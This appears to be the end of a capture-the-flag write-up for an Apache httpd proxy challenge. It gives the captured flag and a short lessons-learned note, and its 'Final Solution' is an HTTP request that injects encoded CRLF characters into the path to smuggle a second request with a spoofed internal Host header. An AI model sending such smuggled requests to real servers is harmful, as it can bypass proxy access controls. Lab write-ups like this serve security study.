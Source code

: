 ![](img/burpPayloadFlagScreenshot.png)
`HTB{1t5_4ll_4b0ut_Th3_Cl1ck5}`
## Final Solution
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/abc HTTP/1.1
Host: localhost:1337
...[other headers]...
Connection: close


```

## Lessons learned
I learned quite something about apache httpd and its different configurations regarding proxies. The challenge also was a refresher for some request smuggling concepts.
